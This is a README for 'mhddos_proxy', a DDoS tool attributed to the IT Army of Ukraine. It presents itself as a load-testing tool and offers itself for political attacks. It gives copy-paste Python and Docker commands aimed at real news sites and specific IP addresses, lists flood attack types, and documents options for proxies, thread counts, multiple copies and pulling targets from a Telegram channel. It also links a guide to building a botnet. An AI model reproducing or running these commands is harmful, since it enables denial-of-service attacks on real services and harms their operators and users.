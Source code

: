 ## IT Army of Ukraine Official Tool

### Use flag `--lang EN` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **21.05.2022**
  - Added english localization - use flag `--lang EN` (more languages may be added later)

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated the asynchronous version, which ensures maximum efficiency and minimum load on the system
  - Efficient operation with larger values of the `-t` parameter (up to 10k) without the risk of "freezing" the whole system
  - A brand-new algorithm for load balancing between targets in order to achieve maximum efficiency
  - Attack types `RGET`, `RHEAD`, `RHEX` and `STOMP` added

### 💽 Installation - [instructions are here](/docs/installation.md)

### 🕹 Running (different options for targets are given)

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (check out more in the [CLI](#cli) section)

**All options can be combined**, you can specify them either before and after the list of targets

Change the workload: `-t XXXX`; the maximum number of simultaneously open connections; the default is 7500 (or 1000 if the machine has only one CPU).

    python3 runner.py -t 5000 https://ria.ru https://tass.ru

To monitor information about the progress, add the `--debug` flag for the text, `--table` for the table-style display

    python3 runner.py --debug https://ria.ru https://tass.ru

To use targets provided by https://t.me/itarmyofukraine2022 add the `--itarmy` option  

    python3 runner.py --itarmy --debug

### 📌 New automatic proxy finder for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Community (mostly in Ukrainian)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### Custom proxies

#### File format:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
